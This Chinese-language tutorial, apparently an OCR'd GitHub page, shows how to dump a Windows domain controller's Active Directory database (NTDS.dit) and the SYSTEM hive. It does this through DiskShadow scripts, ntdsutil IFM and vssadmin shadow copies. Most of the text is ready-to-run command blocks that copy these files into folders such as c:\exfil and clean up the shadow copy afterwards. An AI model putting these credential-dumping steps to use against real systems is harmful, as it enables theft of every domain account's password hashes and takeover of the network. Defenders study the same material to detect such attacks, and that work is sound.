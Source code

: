 **DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。

**vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

---